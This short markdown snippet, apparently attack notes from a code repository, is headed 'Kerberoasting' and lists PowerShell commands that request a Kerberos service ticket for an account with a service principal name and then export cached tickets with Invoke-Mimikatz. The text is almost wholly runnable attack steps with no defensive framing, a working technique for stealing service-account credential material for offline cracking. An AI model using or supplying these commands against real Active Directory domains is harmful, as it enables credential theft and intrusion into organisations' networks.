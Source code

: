 ## Kerberoasting
- First find the user with SPN enabled
```
Add-Type -AssemblyName system.IdentityModel
```
```
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "SPN(service principal name)of user"
```
```
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
